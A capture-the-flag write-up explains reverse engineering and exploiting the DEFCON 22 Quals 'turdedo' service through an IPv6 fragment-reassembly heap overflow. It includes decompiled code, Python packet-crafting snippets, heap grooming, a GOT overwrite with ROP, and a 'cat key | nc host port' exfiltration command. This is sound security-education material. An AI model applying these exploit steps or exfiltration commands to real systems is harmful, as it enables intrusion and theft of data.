


Turdedo Write-up
================

TL;DR I thought the format string filtering was a red herring and exploited an ip6 fragmentation heap overflow.

So, DEFCON CTF 22 Quals happened this past weekend. My team didn't do all that great (27th overall), but I wrote some neat exploits. One of those is my exploit (written along with another team mate, okami41) for turdedo (selir 3). Turns out, our exploit was for an unintentional vulnerability. There generally aren't many write ups for doing it the wrong way, so I wrote this.

Turdedo Overview
----------------

Turdedo was a 3 point challenge in the selir category. Knowing selir (we were teammates  on the DC CTF 17 winning team), I expected it to be an epic network-related challenge -- he's a baller network security engineer. I also noticed that turdedo was likely going to be a [Teredo tunnel](http://en.wikipedia.org/wiki/Teredo_tunneling) service. Teredo tunnels provide IPv6 networking over IPv4.

The challenge description gave a server, a port, and a download link:

	turdedo
	What a crappy protocol 
	turdedo_5f55104b1d60779dbe8dcf5df2b186ad.2014.shallweplayaga.me:3544 
	http://services.2014.shallweplayaga.me/turdedo_5f55104b1d60779dbe8dcf5df2b186ad

The turdedo binary is a 32bit x86 Linux ELF:

	$ file turdedo_5f55104b1d60779dbe8dcf5df2b186ad
	turdedo_5f55104b1d60779dbe8dcf5df2b186ad: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped

The file also had stack canaries and NX, but was lacking any randomization:

	$ ~/checksec.sh --file turdedo_5f55104b1d60779dbe8dcf5df2b186ad 
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   turdedo_5f55104b1d60779dbe8dcf5df2b186ad

Running the service shows it opens up UDP port 3544. (Reversing showed it needed to be run as root so it could drop privs to the turdedo user before it could be run)

	$ sudo netstat -anp | grep turd
	udp        0      0 0.0.0.0:3544            0.0.0.0:*                           43351/turdedo_with_debug

Reverse Engineering
===================

Side-Note: This challenge is fairly RE-heavy. I've provided a IDC database dump of my IDA database and the full HexRays output. It is checked in alongside this write up.

Let's start by loading the binary into IDA (and HexRays). The first function is pretty ugly, but we can already see that it's going to be a fun one. As shown below, there's a debug print that prints an IPv6 address:

	size_t __cdecl sub_804C00F(int a1, int a2)
	{
	  size_t result; // eax@8
	  int v3; // edx@10
	  int v4; // [sp+66Ch] [bp-10h]@1
	
	  v4 = *MK_FP(__GS__, 20);
	  dword_804E170 = 0;
	  dword_804E160 = 0;
	  fd = 0;
	  word_804E168 = 0;
	  dword_804E16C = time(0);
	  dword_804E164 = time(0);
	  srand(1u);
	  signal(17, (__sighandler_t)1);
	  signal(13, (__sighandler_t)1);
	  if ( a1 == 2 )
	    sub_8049209("eth0", *(_DWORD *)(a2 + 4));
	  else
	    sub_8049209("eth0", 0);
	  if ( dword_804E158 )
	    fprintf(
	      stderr,
	      "My addr: %02x%02x:%02x%02x:%02x%02x:%02x%02x:%02x%02x:%02x%02x:%02x%02x:%02x%02x\n",
	      (unsigned __int8)dword_804E174,
	      BYTE1(dword_804E174),
	      BYTE2(dword_804E174),
	      BYTE3(dword_804E174),
	      (unsigned __int8)dword_804E178,
	      BYTE1(dword_804E178),
	      BYTE2(dword_804E178),
	      BYTE3(dword_804E178),
	      (unsigned __int8)dword_804E17C,
	      BYTE1(dword_804E17C),
	      BYTE2(dword_804E17C),
	      BYTE3(dword_804E17C),
	      (unsigned __int8)dword_804E180,
	      BYTE1(dword_804E180),
	      BYTE2(dword_804E180),
	      BYTE3(dword_804E180));
	  if ( sub_804943B() )
	    exit(-1);
	  sub_8048E14("turdedo");
	  sub_804BD3B();
	  result = dword_804E158;
	  if ( dword_804E158 )
	    result = fwrite("done...byebye\n", 1u, 0xEu, stderr);
	  v3 = *MK_FP(__GS__, 20) ^ v4;
	  return result;
	}

My general approach to reverse engineering is pass-based. I make a fuzzy first pass where I label everything I know already (lol groundtruth). For the first pass I normally label stack variables and globals that interact with libc in some way. For instance, two of the global variables above (dword\_804E16C and dword\_804E164) are seeded with time -- this could be used for several things (stack cookies, random seeds, timers, etc). I'll likely name these "seeded\_with\_time0" and "seeded\_with\_time1" and come back to them later when I get a better idea as to how they're used. The same technique applies to most other libc calls (fopen() returns a FILE \*, fread() takes a char * for its first arg and a FILE \* for its last arg, etc, etc). It's important to label absolutely everything, even if you don't know what it is. Mark it with something trivial at first and refine it in later passes.

Debug Prints
------------

As shown in the code snippet above, the fprintf only happens if dword\_804E158 == 1. When checking for xrefs to dword\_804E164, I noticed that this was the case in many other calls. I renamed this value to debug and looked for a way to turn it on. There was a small problem though, the turdedo application itself didn't have a way to set it to 1 and the storage backing this debug variable was in the .bss (the uninitialized data section -- or more appropriately, initialized to 0). Since it was in the .bss, I couldn't just patch it in the binary. I needed to patch in code that set it to 1.

I did this by replacing the instructions at the first check to debug with a single increment of the debug variable. I also removed the test and conditional branch for space reasons.

 

Now when we launch turdedo, we get the debug prints! :)

	# ./turdedo_with_debug 
	My addr: 2001:0000:ac10:2fa1:0000:f227:53ef:d05e

Structures!
------------

The secret to reverse engineering is understanding what data types are being operated on. Since this service listens on the same UDP port as teredo, I expect to need some IPv6 structures -- specifically the IPv6 header. Thankfully, those are easily found in your /usr/include/netinet/ folder (in ip.h). I also took this opportunity to grab the UDP header structure.

	struct ip6_hdr {
	        union {
	                struct ip6_hdrctl {
	                        u_int32_t ip6_un1_flow; /* 20 bits of flow-ID */
	                        u_int16_t ip6_un1_plen; /* payload length */
	                        u_int8_t  ip6_un1_nxt;  /* next header */
	                        u_int8_t  ip6_un1_hlim; /* hop limit */
	                } ip6_un1;
	                u_int8_t ip6_un2_vfc;   /* 4 bits version, top 4 bits class */
	        } ip6_ctlun;
	        struct in6_addr ip6_src;        /* source address */
	        struct in6_addr ip6_dst;        /* destination address */
	} __attribute__((__packed__));

	struct udphdr
	{
	  u_short uh_sport;
	  u_short uh_dport;
	  u_short uh_ulen;
	  u_short uh_sum;
	};
	

This structure can be added directly into IDA's local types window. I modified mine slightly, by removing the union and breaking the ip6\_hdrctl structure out into a separate declaration. I did this because I've had issues in the past with nested structures and unions in IDA. However, it seems to work fine if you declare them all individually.

Main Loop
---------
sub\_804BD3B seems to be the main loop for the service. A few things jump out. First, it reads 1500 bytes from the udp socket (the same as Ethernet's default MTU size) into a stack buffer. If we cast this buffer to our ipv6 header, we get a better idea of what's going on.

	int sub_804BD3B()
	{
	  const char *v0; // eax@4
	  uint16_t v1; // ax@6
	  int v2; // ebx@8
	  int v3; // ebx@8
	  const char *v4; // eax@8
	  const char *v5; // eax@12
	  socklen_t addr_len; // [sp+20h] [bp-608h]@1
	  int v8; // [sp+24h] [bp-604h]@2
	  ip6_hdr *v9; // [sp+28h] [bp-600h]@6
	  int v10; // [sp+2Ch] [bp-5FCh]@8
	  char buf[1500]; // [sp+30h] [bp-5F8h]@1
	  struct sockaddr addr; // [sp+60Ch] [bp-1Ch]@15
	  int v13; // [sp+61Ch] [bp-Ch]@1
	
	  v13 = *MK_FP(__GS__, 20);
	  addr_len = 16;
	  memset(buf, 0, sizeof(buf));
	  while ( 1 )
	  {
	    v8 = recvfrom(fd, buf, 1500u, 0, &addr, &addr_len); // read in packet
	    if ( v8 <= 0 )
	      break;
	    sub_804BCA5();
	    if ( v8 > 39 )
	    {
	      v9 = (ip6_hdr *)buf;
	      v1 = ntohs(*(uint16_t *)&buf[4]);
	      if ( v1 + 40 == v8 )										// Size check?
	      {
	        if ( !memcmp(&ipv6addr, &v9->ip6_dst, 0x10u) )          // Meant for us?
	        {
	          if ( v9->ip6_un1.ip6_un1_nxt == 44 )	
	          {
	            sub_804969B(buf, v8, &addr);
	          }
	          else if ( v9->ip6_un1.ip6_un1_nxt == 17 )
	          {
	            if ( v8 > 48 )
	              sub_80495CD(&buf[48], v8 - 48);
	            sub_804B45B(buf, &addr);
	          }
	          else
	          {
	            printf("Invalid protocol: %d\n", v9->ip6_un1.ip6_un1_nxt);
	          }
	          memset(buf, 0, sizeof(buf));
	        }
	        else
	        {
	          if ( debug )
	          {
	            v5 = (const char *)sub_8049080(16);
	            fprintf(stderr, v5);
	          }
	          memset(buf, 0, sizeof(buf));
	        }
	      }
	      else
	      {
	        if ( debug )
	        {
	          v2 = 4 * ((*(_BYTE *)v10 & 0xF) + 10);
	          v3 = ntohs(v9->ip6_un1.ip6_un1_plen) + v2;
	          v4 = (const char *)sub_8049080(15);
	          fprintf(stderr, v4, v8, v3);
	        }
	        memset(buf, 0, sizeof(buf));
	      }
	    }
	    else
	    {
	      if ( debug )
	      {
	        v0 = (const char *)sub_8049080(14);
	        fprintf(stderr, v0, v8);
	      }
	      memset(buf, 0, sizeof(buf));
	    }
	  }
	  return *MK_FP(__GS__, 20) ^ v13;
	}

This code does 3 interesting things:

* It seems to validate that the reported packet length was what was received.
* It checks to see if the packet's destination address matches our local ipv6 address.
* It checks the ip6\_un1.ip6\_un1\_nxt field.

According to the spec, the ip6\_un1.ip6\_un1\_nxt is the "next" protocol -- meaning the one encapsalated in the IPv6 packet. If we search IDA's standard enum database (by clicking the value and hitting 'm'), we'll see that 17 is IPPROTO\_UDP and 44 is IPPROTO\_FRAGMENT. Specifying any other value gives an "invalid protocol" error. The functions associated with each check are the handlers for UDP packets and ip6 fragmentation packets, respectively.

I decided to dive into the UDP processor first.

UDP Processor
-------------

The UDP processor is pretty straight-forward, but it's a lie. It's really a fake TCP connection. You have to associate with a SYN/SYNACK/ACK. Once this is done, it keeps a record of your connection in the state table and forwards all subsequent packets onto a command processor. I'm going to fast forward through the reverse engineering and just provide my fully annotated decompilation:

	int __cdecl udp_state_machine(udp_ip63 *packet_, struct sockaddr *addr)
	{
	  char **v2; // eax@3
	  char **v3; // eax@6
	  uint16_t v4; // bx@7
	  int v5; // esi@9
	  int v6; // ebx@9
	  char **v7; // eax@9
	  int udp_sport; // ebx@10
	  uint16_t udp_dport; // ax@10
	  uint16_t v11; // ax@25
	  uint16_t packet_len; // ax@28 MAPDST
	  in6_addr *v13; // edx@34
	  in6_addr *v14; // eax@34
	  in6_addr *v15; // edx@34
	  in6_addr *v16; // eax@34
	  int pipedes[2]; // [sp+44h] [bp-A4h]@18
	  udphdr *udphdr; // [sp+58h] [bp-90h]@4
	  char *udp_data; // [sp+5Ch] [bp-8Ch]@4
	  struct_ptr *ptr; // [sp+60h] [bp-88h]@10
	  int write_len; // [sp+64h] [bp-84h]@24
	  char s[100]; // [sp+68h] [bp-80h]@12
	  int v25; // [sp+CCh] [bp-1Ch]@1
	
	  v25 = *MK_FP(__GS__, 20);
	  cleanup_stale_connections();
	  if ( ntohs(packet_->hdr.ip6_un1_plen) > 7u )
	  {
	    udphdr = &packet_->udphd;
	    udp_data = (char *)packet_->data;
	    if ( ntohs(packet_->udphd.uh_dport) == 3544 )
	    {
	      v4 = htons(packet_->hdr.ip6_un1_plen);
	      if ( v4 == ntohs(udphdr->uh_ulen) )
	      {
	        udp_sport = ntohs(udphdr->uh_dport);
	        udp_dport = ntohs(udphdr->uh_sport);
	        ptr = lookup_packet_in_state_table(
	                addr,
	                (char)packet_->hdr.ip6_src.__u6_addr32[0],
	                (int)packet_->hdr.ip6_src.__u6_addr32[1],
	                (int)packet_->hdr.ip6_src.__u6_addr32[2],
	                (int)packet_->hdr.ip6_src.__u6_addr32[3],
	                (char)packet_->hdr.ip6_dst.__u6_addr32[0],
	                (int)packet_->hdr.ip6_dst.__u6_addr32[1],
	                (int)packet_->hdr.ip6_dst.__u6_addr32[2],
	                (int)packet_->hdr.ip6_dst.__u6_addr32[3],
	                udp_dport,
	                udp_sport);
	        if ( ptr )
	        {
	          switch ( LOBYTE(ptr->state) )
	          {
	            case SYNACK:
	              snprintf(s, 0xEu, "ACK%d", ptr->rand_value);
	              if ( ntohs(packet_->hdr.ip6_un1_plen) == strlen(s) + 8 )
	              {
	                if ( !strncmp(udp_data, s, strlen(s)) )
	                {
	                  LOBYTE(ptr->state) = 2;
	                  snprintf(s, 0x63u, "server%% ");
	                  if ( sendto_0(s, strlen(s), (ptr_type *)ptr) != strlen(s) )
	                    remove_from_state_table(ptr);
	                }
	                else
	                {
	                  remove_from_state_table(ptr);
	                }
	              }
	              break;
	            case ACK:
	              if ( !pipe(pipedes) )
	              {
	                ptr->child_process = fork();
	                if ( ptr->child_process == -1 )
	                {
	                  free(ptr);
	                }
	                else
	                {
	                  if ( !ptr->child_process )
	                  {
	                    ptr->child_pipe[0] = pipedes[0];
	                    close(pipedes[1]);
	                    cmdprocessor(ptr);
	                    exit(0);
	                  }
	                  ptr->child_pipe[1] = pipedes[1];
	                  close(pipedes[0]);
	                  LOBYTE(ptr->state) = 3;
	                  ptr->time = time(0);
	                  packet_len = ntohs(packet_->hdr.ip6_un1_plen);
	                  write_len = write(ptr->child_pipe[1], &packet_->udphd, packet_len);
	                  if ( write_len == -1 || (v11 = ntohs(packet_->hdr.ip6_un1_plen), v11 != write_len) )
	                  {
	                    close(ptr->child_pipe[1]);
	                    kill(ptr->child_process, 9);
	                    remove_from_state_table(ptr);
	                  }
	                }
	              }
	              break;
	            case ESTABLISHED:
	              packet_len = ntohs(packet_->hdr.ip6_un1_plen);
	              write_len = write(ptr->child_pipe[1], &packet_->udphd, packet_len);
	              ptr->time = time(0);
	              if ( write_len == -1 || ntohs(packet_->hdr.ip6_un1_plen) != write_len )
	              {
	                close(ptr->child_pipe[1]);
	                kill(ptr->child_process, 9);
	                remove_from_state_table(ptr);
	              }
	              break;
	          }
	        }
	        else if ( ntohs(packet_->hdr.ip6_un1_plen) == 11 && !strncmp(udp_data, "SYN", 3u) )
	        {
	          ptr = (struct_ptr *)calloc(1u, 0x54u);
	          if ( ptr )
	          {
	            v13 = &packet_->hdr.ip6_src;
	            v14 = (in6_addr *)&ptr->ip6_src_addr;
	            v14->__u6_addr32[0] = packet_->hdr.ip6_src.__u6_addr32[0];
	            v14->__u6_addr32[1] = v13->__u6_addr32[1];
	            v14->__u6_addr32[2] = v13->__u6_addr32[2];
	            v14->__u6_addr32[3] = v13->__u6_addr32[3];
	            v15 = &packet_->hdr.ip6_dst;
	            v16 = (in6_addr *)&ptr->ip6_dst_addr;
	            v16->__u6_addr32[0] = packet_->hdr.ip6_dst.__u6_addr32[0];
	            v16->__u6_addr32[1] = v15->__u6_addr32[1];
	            v16->__u6_addr32[2] = v15->__u6_addr32[2];
	            v16->__u6_addr32[3] = v15->__u6_addr32[3];
	            ptr->tunnel_sockaddr = *addr;
	            ptr->udp_sport = ntohs(udphdr->uh_sport);
	            ptr->udp_dport = ntohs(udphdr->uh_dport);
	            ptr->rand_value = rand() / 2;
	            snprintf(s, 0x11u, "SYNACK%d", ptr->rand_value);
	            if ( sendto_0(s, strlen(s), (ptr_type *)ptr) == strlen(s) )
	            {
	              LOBYTE(ptr->state) = SYNACK;
	              ptr->time = time(0);
	              if ( add_to_state_table(ptr) )
	                free(ptr);
	            }
	            else
	            {
	              free(ptr);
	            }
	          }
	        }
	      }
	      else if ( debug )
	      {
	        v5 = ntohs(udphdr->uh_ulen);
	        v6 = htons(packet_->hdr.ip6_un1_plen);
	        v7 = lookup_error_code(9);
	        fprintf(stderr, (const char *)v7, v6, v5);
	      }
	    }
	    else if ( debug )
	    {
	      v3 = lookup_error_code(8);
	      fprintf(stderr, (const char *)v3);
	    }
	  }
	  else if ( debug )
	  {
	    v2 = lookup_error_code(7);
	    fprintf(stderr, (const char *)v2);
	  }
	  return *MK_FP(__GS__, 20) ^ v25;
	}

After you associated, a command processor was fork()ed off and offered a few commands:

* uname
* uname [-asnrvmpio]
* ls
* ls [abcdefghijklmnopqrstuvwxyz0123456789/-. ]
* pwd
* echo
* exit
* cat (it's actually fake, it prints a taunt)

I checked each command for overflow, etc and didn't see one. Although, I should have looked much more closely, because the vulnerability I was supposed to find was in the 'echo' command -- a format string.

With a false sense of completeness, I moved onto the fragmentation code.

IP Fragmentation Reassembly
---------------------------

Any software security researcher will tell you that there always bugs in IP fragmentation reassembly. I expected to find one here.

Much like before, I started with finding the appropriate structures for IPv6 fragmentation packets. It was also in the ip6.h file.

	struct ip6_frag {
	        u_int8_t  ip6f_nxt;             /* next header (what's the next layer: UDP, TCP, etc) */
	        u_int8_t  ip6f_reserved;        /* reserved field */
	        u_int16_t ip6f_offlg;           /* offset, reserved, and flag (a bit packed field with 13 bits of offset, 2 reserved, and 1 flag */
	        u_int32_t ip6f_ident;           /* identification */
	} 

Below is my fully annotated decompilation:

	int __cdecl hande_fragment(ip6_frag_packet_with_data *a1, signed int a2_frag_size, int addr)
	{
	  int result; // eax@2
	  char **v4; // eax@3
	  uint16_t v5; // ax@5 MAPDST
	  __int16 v6; // ST2E_2@6
	  udp_ip62 *v7; // ebx@8
	  uint16_t v8; // ax@10
	  uint16_t v9; // ax@11
	  char **v10; // eax@16
	  in6_addr *v11; // eax@19
	  in6_addr *v12; // eax@19
	  uint16_t v13; // ax@20
	  uint16_t packet_len; // ax@21
	  udp_ip62 *v15; // ebx@21
	  char *dest; // [sp+18h] [bp-20h]@6
	  udp_ip62 *frag_data; // [sp+18h] [bp-20h]@18
	  struct_frag *frag; // [sp+20h] [bp-18h]@17 MAPDST
	  uint16_t offset_size; // [sp+2Ah] [bp-Eh]@17
	  uint16_t more_frags_to_come; // [sp+2Ch] [bp-Ch]@6
	  uint16_t more_frags_to_comea; // [sp+2Ch] [bp-Ch]@17
	  __int16 v24; // [sp+2Eh] [bp-Ah]@7
	  __int16 frag_len; // [sp+2Eh] [bp-Ah]@18
	
	  if ( a2_frag_size > 0x2F )
	  {
	    frag = lookup_ip_fragment_state_table(a1);
	    if ( frag )
	    {
	      v5 = ntohs(a1->frag_packet.ip6f_offlg & 0xF8FF);   // <-- BUG 1
	      result = v5 + ntohs(a1->ip6hdr.ip6_un1_plen) - 8;
	      if ( result > 0xFFFF )                    // why you signed?
	        return result;
	      more_frags_to_come = ntohs(a1->frag_packet.ip6f_offlg & 0x100);
	      v6 = frag->len;
	      dest = (char *)frag->frag_data;
	      if ( v5 + ntohs(a1->ip6hdr.ip6_un1_plen) - 8 > frag->len - 40 )
	      {
	        v24 = v5 + ntohs(a1->ip6hdr.ip6_un1_plen) + 0x20;
	        result = (int)calloc(1u, (unsigned __int16)v24); 				// <-- BUG 2 and BUG 3
	        dest = (char *)result;
	        if ( !result )
	          return result;
	        memcpy((void *)result, frag->frag_data, frag->len);// copy current contents into buffer
	        free(frag->frag_data);
	        frag->frag_data = (udp_ip62 *)dest;
	        frag->len = v24;
	        v7 = frag->frag_data;
	        v7->hdr.ip6_un1_plen = htons(v24 - 40);
	      }
	      if ( ntohs(a1->ip6hdr.ip6_un1_plen) > 0x10u )
	      {
	        v8 = ntohs(a1->ip6hdr.ip6_un1_plen);
	        check_for_percent_n((int)a1->data, v8 - 8);
	      }
	      v9 = ntohs(a1->ip6hdr.ip6_un1_plen);
	      memcpy(&dest[v5 + 40], a1->data, v9 - 8); // copy new contents into buffer
	      if ( more_frags_to_come )
	      {
	        result = time(0);
	        frag->time = result;
	      }
	      else
	      {
	        udp_state_machine((udp_ip63 *)dest, (struct sockaddr *)addr);
	        free(dest);
	        result = remove_from_frag_state_table(frag);
	      }
	    }
	    else if ( a1->frag_packet.ip6f_nxt == IPPROTO_UDP )
	    {
	      offset_size = ntohs(a1->frag_packet.ip6f_offlg & 0xF8FF);
	      more_frags_to_comea = ntohs(a1->frag_packet.ip6f_offlg & 0x100);
	      result = (int)calloc(1u, 0x34u);
	      frag = (struct_frag *)result;
	      if ( result )
	      {
	        frag_len = offset_size + ntohs(a1->ip6hdr.ip6_un1_plen) + 0x20;
	        result = (int)calloc(1u, (unsigned __int16)frag_len); 				// <-- BUG 4
	        frag_data = (udp_ip62 *)result;
	        if ( result )
	        {
	          frag->ip6f_ident = ntohl(a1->frag_packet.ip6f_ident);
	          v11 = &frag->src_addr;
	          v11->__u6_addr32[0] = a1->ip6hdr.ip6_src.__u6_addr32[0];
	          v11->__u6_addr32[1] = a1->ip6hdr.ip6_src.__u6_addr32[1];
	          v11->__u6_addr32[2] = a1->ip6hdr.ip6_src.__u6_addr32[2];
	          v11->__u6_addr32[3] = a1->ip6hdr.ip6_src.__u6_addr32[3];
	          v12 = &frag->dst_addr;
	          v12->__u6_addr32[0] = a1->ip6hdr.ip6_dst.__u6_addr32[0];
	          v12->__u6_addr32[1] = a1->ip6hdr.ip6_dst.__u6_addr32[1];
	          v12->__u6_addr32[2] = a1->ip6hdr.ip6_dst.__u6_addr32[2];
	          v12->__u6_addr32[3] = a1->ip6hdr.ip6_dst.__u6_addr32[3];
	          frag->frag_data = frag_data;
	          frag_data->hdr.ip6_un1_flow = a1->ip6hdr.ip6_un1_flow;
	          *(_DWORD *)&frag_data->hdr.ip6_un1_plen = *(_DWORD *)&a1->ip6hdr.ip6_un1_plen;
	          frag_data->hdr.ip6_src.__u6_addr32[0] = a1->ip6hdr.ip6_src.__u6_addr32[0];
	          frag_data->hdr.ip6_src.__u6_addr32[1] = a1->ip6hdr.ip6_src.__u6_addr32[1];
	          frag_data->hdr.ip6_src.__u6_addr32[2] = a1->ip6hdr.ip6_src.__u6_addr32[2];
	          frag_data->hdr.ip6_src.__u6_addr32[3] = a1->ip6hdr.ip6_src.__u6_addr32[3];
	          frag_data->hdr.ip6_dst.__u6_addr32[0] = a1->ip6hdr.ip6_dst.__u6_addr32[0];
	          frag_data->hdr.ip6_dst.__u6_addr32[1] = a1->ip6hdr.ip6_dst.__u6_addr32[1];
	          frag_data->hdr.ip6_dst.__u6_addr32[2] = a1->ip6hdr.ip6_dst.__u6_addr32[2];
	          frag_data->hdr.ip6_dst.__u6_addr32[3] = a1->ip6hdr.ip6_dst.__u6_addr32[3];
	          if ( ntohs(a1->ip6hdr.ip6_un1_plen) > 0x10u )
	          {
	            v13 = ntohs(a1->ip6hdr.ip6_un1_plen);
	            check_for_percent_n((int)&a1->data[8], v13 - 16);
	          }
	          packet_len = ntohs(a1->ip6hdr.ip6_un1_plen);
	          memcpy((char *)&frag_data->udphd + offset_size, a1->data, packet_len - 8);
	          v15 = frag->frag_data;
	          v15->hdr.ip6_un1_plen = htons(frag_len - 40);
	          frag->len = frag_len;
	          frag->time = time(0);
	          result = add_to_frag_state_table(frag);
	          if ( !more_frags_to_comea )
	          {
	            udp_state_machine((udp_ip63 *)frag_data, (struct sockaddr *)addr);
	            free(frag_data);
	            result = remove_from_frag_state_table(frag);
	          }
	        }
	      }
	    }
	    else
	    {
	      result = debug;
	      if ( debug )
	      {
	        v10 = lookup_error_code(3);             // not a udp fragment
	        result = fprintf(stderr, (const char *)v10);
	      }
	    }
	  }
	  else
	  {
	    result = debug;
	    if ( debug )
	    {
	      v4 = lookup_error_code(2);                // fragment not long enough
	      result = fprintf(stderr, (const char *)v4);
	    }
	  }
	  return result;
	}

So, okami and I found 3 bugs in this function:

* Bug 1: The offset is stored in the top 13 bits of a uint16\_t. It should be shifted left 3 here.
* Bug 2: The new packet size isn't added in to the size of the existing fragments (reassembly fail). Not exploitable, just broken. :D
* Bug 3 & 4: The offset + packet size + 0x20 is stored in a uint16\_t.  Our offset maxs out at 0xfff8 (due to BUG 1), our packet size could be 1500, and it also added 0x20. 

By manipulating the packet size and offset, we could get very small allocations (0x20-0x27) but overflow them by several thousand bytes.

Exploitation
============

Exploitation of this vulnerability was tough, as it required a bunch of heap fung-shei. Thankfully the heap was fairly deterministic.

Heap Overflow
-------------

The heap overflow was fairly easy to trigger, as a single packet could do it: 

	fragdata = "h" * 3000
	fragdata = fragdata[:1103]
	
	offset = (0xffff - len(fragdata)) & 0xfff8
	flag = 0x1  # 1 = more fragments coming
	reserved = 0 & 0x6
	
	frag = ""
	frag += struct.pack("!B", 0x11) # ip6f_next IPPROTO_UDP
	frag += struct.pack("!B", 0)  # ip6f_reserved
	frag += struct.pack("!H", offset | flag | reserved) # offlg
	frag += 'ryan' # ip6f_ident
	
	frag += fragdata
	
	data = IP6(src=src, dst=dst, data=frag)
	data.plen = len(frag)
	data.nxt = 0x2c
	
	alloc_size = offset + len(frag) + 0x20
	print "Allocation Size: ", hex(alloc_size & 0xffff)
	print "Overflow Size: ", len(fragdata) - (alloc_size & 0xffff)
	
	s.sendto(str(data), sa)

Unfortunately, the overflow happened somewhere around 0xfe00 away from the fragment that caused the overflow. This means we'd need the overflowing packet to occur well before any other adjacent control data AKA heap manipulation.

After poking around, we decided the only thing we could get allocated in the entire heap block was other ip6 fragments.

Heap Manipulation via IP Fragmentation
--------------------------------------

Remember the ip6\_frag header? The identification field and the 1 bit flag come into play here quite a bit. The identification field is used for differentiating between fragmentation streams. The 1 bit flag is used to notify the receiving end that it should expect subsequent fragments. Turdedo handled this by added a new item to a singly-linked list for each new ip6f\_ident tag and modifying the list item for any subsequent uses. Thankfully, we had nearly complete control over heap allocations. By sending a new ip6f\_ident with the more frags coming flag set, we would cause an allocation. By sending the same ident with the flag cleared, we could cause a free. 

The linked list structure looks like this:

	#pragma pack(push, 1)
	struct struct_frag
	{
	  int ip6f_ident;
	  in6_addr src_addr;
	  in6_addr dst_addr;
	  udp_ip62 *frag_data;
	  __int16 len;
	  __int16 field_2A;
	  int time;
	  struct_frag *next;
	};
	#pragma pack(pop)

If we could overwrite a list entry, we have two potential pointers we could use to cause arbitrary writes: frag\_data and next.

I used this control to allocate a couple dozen fragments (each with unique idents) of size 0x28 -- the smallest size I could allocate. For some reason, the largest allocation the overflow packet ever made was 0x27. It was close enough to not matter. The following image shows a simplified memory view:

Following the first set of allocations (blue), I sprayed a bunch of very large fragmented packets (purple). These will be the targets for my overflow later.

Next I freed every other (blue) fragment by sending a "no more fragments" packet with the same identifier. This makes holes for our fragmented packet that will overflow.

Linked List Item Overwrite
--------------------------

We hope to land in one of those free blocks so our overflow overwrites something we can control later. Now we send the overflowing packet (red).

The overflow happens several thousand bytes further down the heap.

The black lines represent the meta data from each linked list entry. We just overwrote that with our forged entry (green).

Due to the way the service walks the linked list, we had to overwrite the list item with well formed data. The only values we corrupted were the two pointers:

	fragdata = 'tttt'									# ident
	fragdata += src										# ipv6 teredo src addr
	fragdata += dst										# dst addr
	fragdata += struct.pack("I", 0x0804E0B8-0x2c)		# frag_data, our write target (ntohs in the .got)
	fragdata += struct.pack("H", 0x8888)				# packet size
	fragdata += 'bb'									# junk
	fragdata += '\x00\x00\x00\x00'						# next pointer, set to 0 to terminate the list

Next, all we had to do was send a packet with the same identifier (tttt) as our forged list item and a smaller size. This would cause the fragment reassembly to write the incoming packet data to the frag\_data pointer.

GOT Overwrite & Popen
---------------------

We used our arbitrary write to overwrite the ntohs entry in the .got. This gave us EIP control. However, NX is on, so we need to ROP. Thankfully, the UDP command parser imported popen.

We used an add esp, 0xdc; pop; pop; pop; ret to align our stack. Then we called popen("cat key | nc host port\x00", "r") with a single additional rop gadget.

Conclusion
==========

Perhaps a little shockingly, the exploit (turdedo\_x.py) worked the first time we tried it on the competition server and we got the following key:

	The flag is: Why isn't everyone native IPv6 by now?!?!

An interesting note, our exploit got code execution in the parent process, where the other bug (the format string) got it in a child that's forked off (the udp command processor). This could have bit LegitBS, but they dropped privs from root earlier that normal.
